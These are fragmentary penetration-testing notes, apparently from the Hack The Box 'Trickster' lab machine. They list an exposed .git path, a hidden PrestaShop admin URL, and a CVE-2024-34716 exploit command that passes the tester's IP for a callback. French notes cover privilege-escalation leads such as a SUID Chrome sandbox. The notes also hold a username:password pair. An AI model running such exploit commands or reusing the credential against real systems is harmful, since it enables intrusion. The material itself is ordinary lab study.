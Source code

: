 abc@mcn.gouv.qc.ca:passwordnotabc

shop.trickster.htb/.git

http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php

admin@trickster.htb:???

https://github.com/aelmokhtar/CVE-2024-34716/tree/main

python exploit.py --url 'http://shop.trickster.htb' --email 'admin@trickster.htb' --local-ip 10.10.14.97 --admin-path admin634ewutrx1jgitlooaj

======================
MariaDB
sshd james
suid /opt/google/chrome/chrome-sandbox
https://www.exploit-db.com/exploits/51983
serveur HTTP sur 127.0.0.1:45279 Pas de page web
avec pspy64 on voit des processus de google chrome s'exécuter. Le mot zygote revient que j'ai vu dans un exploit
